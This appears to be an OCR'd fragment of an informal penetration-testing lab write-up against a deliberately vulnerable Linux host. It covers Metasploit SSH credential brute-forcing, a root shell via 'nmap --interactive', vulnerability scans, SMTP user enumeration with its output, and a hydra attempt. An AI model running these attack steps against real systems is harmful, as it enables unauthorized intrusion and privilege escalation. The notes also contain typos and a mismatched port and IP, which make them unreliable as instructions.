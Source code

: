 USERPASS_FILE => /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
 

 msf auxiliary(ssh_login) > run
 
 no promising results , so lets use the credential user:user we already extracted before and attemp privleage esciliation 
  
 write down this command 
  
  nmap --interactive
  sh
  
  whoami >> root 
  
  
23/tcp   open  telnet      Linux telnetd
---

  nmap -sV -sC 192.168.1.3 -p 23 --script vuln get some result
 search sploits for telnet Linux 
 couldn't verify that the service is vulnerable 

 25/tcp   open  smtp        Postfix smtpd
 -----
 
 nmap -sV -sC 192.168.1.3 -p 23 --script vuln get some result
 the service is vulnerable to two mitm attacks (which i skipped) 
 enumerating the user using smpt-user-enum tool getting me this result 
 --
 
 192.168.1.3:25 Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data

brute forcing the password using hydra but authentication not enabled on the server 
 
 53/tcp   open  domain      ISC BIND 9.4.2
----
 using nmap engine found CVE-2008-0122 CSSV 10.0 vulneraries that causes Denial Of Service Execute Code Memory corruption

 
 There are not any Metasploit modules related to this CVE or any working online exploit
 
 
 
 80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.10 with Suhosin-Patch)
---
 running nmap , searching edb and mfs couldn't verify vulnerability for the exact version of the service
  
 111/tcp  open  rpcbind     
  ----
  
 showmount -e 192.168.130.134 
  
  /* 
  
  now let's take every thing 
  